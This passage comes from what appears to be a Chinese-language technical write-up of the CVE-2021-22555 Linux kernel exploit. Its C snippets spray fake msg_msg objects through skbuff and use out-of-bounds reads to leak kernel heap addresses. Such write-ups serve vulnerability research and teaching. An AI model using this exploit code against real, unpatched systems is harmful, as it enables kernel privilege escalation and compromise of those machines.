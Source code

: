 ```c

  printf("[*] Spraying fake secondary messages...\n");
  memset(secondary_buf, 0, sizeof(secondary_buf));
  build_msg_msg((void *)secondary_buf, 0x41414141, 0x42424242,
                PAGE_SIZE - MSG_MSG_SIZE, 0);
  if (spray_skbuff(ss, secondary_buf, sizeof(secondary_buf)) < 0)
    goto err_rmid;
```

![6](/images/posts/CVE-2021-22555/6.png)

##### （3）泄露相邻辅助消息->主消息的堆地址（0x1000堆块地址）

由于`m_ts`变大，可以越界读取相邻辅助消息的消息头，主要是泄露`msg_msg->m_list->next`和`msg_msg->m_list->prev`（相邻辅助消息的主消息堆地址，记为`kheap_addr`）。

```c
  // Use the fake secondary message to read out-of-bounds.
  printf("[*] Leaking adjacent secondary message...\n");
  if (peek_msg(msqid[fake_idx], &msg_fake, sizeof(msg_fake), 1) < 0)
    goto err_rmid;

  // Check if the leak is valid.
  if (*(int *)&msg_fake.mtext[SECONDARY_SIZE] != MSG_TAG) {
    printf("[-] Error could not leak adjacent secondary message.\n");
    goto err_rmid;
  }

  // The secondary message contains a pointer to the primary message.
  msg = (struct msg_msg *)&msg_fake.mtext[SECONDARY_SIZE - MSG_MSG_SIZE];
  kheap_addr = msg->m_list_next;
  if (kheap_addr & (PRIMARY_SIZE - 1))
    kheap_addr = msg->m_list_prev;
  printf("[+] kheap_addr: %" PRIx64 "\n", kheap_addr);
```

##### （4）泄露fake辅助消息的堆地址（0x400堆块地址）

释放skb，重新填充该fake辅助消息，**`msg_msg->next = kheap_addr`**，因此，某个主消息成了该辅助消息的segment（`msg_msgseg`结构）。这样就能越界读取主消息的头，主消息的`msg_msg->m_list->next`指向与之对应的辅助消息，也即fake辅助消息相邻的辅助消息，该内存地址-0x400，即为fake辅助消息的真实地址。

